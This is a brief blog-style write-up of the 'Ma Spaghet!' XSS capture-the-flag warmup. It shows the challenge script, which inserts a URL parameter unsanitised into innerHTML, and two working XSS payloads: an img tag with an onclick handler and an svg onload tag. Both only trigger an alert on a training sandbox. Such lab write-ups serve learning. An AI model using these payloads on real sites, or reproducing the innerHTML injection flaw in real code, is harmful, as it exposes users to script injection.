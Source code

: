 ```yaml
---
title: Ma Spaghet! 
layout: post 
date: 2022-04-29 
permalink: /:categories/:title
categories: writeups xss-game
---
```


#### challenge

This is the script that violates the web

```markup
<!-- Challenge -->
<h2 id="spaghet"></h2>
<script>
    spaghet.innerHTML = (new URL(location).searchParams.get('somebody') || "Somebody") + " Toucha Ma Spaghet!"
</script>
```

#### my solution

We have only to add a simple XSS, with *img* and the option *alt* we display something in the website and for execute some *js* we use onclick or onmouseover function to run the code

[Somebody Toucha Ma Spaghet!](https://sandbox.pwnfunction.com/warmups/ma-spaghet.html?somebody=%3Cimg%20alt=%27click%27%20onclick=alert(%27win%27)%3E)

#### creator solution

The solution given by the creator of the game is as follows

```markup
<svg onload=alert(1337)>
```
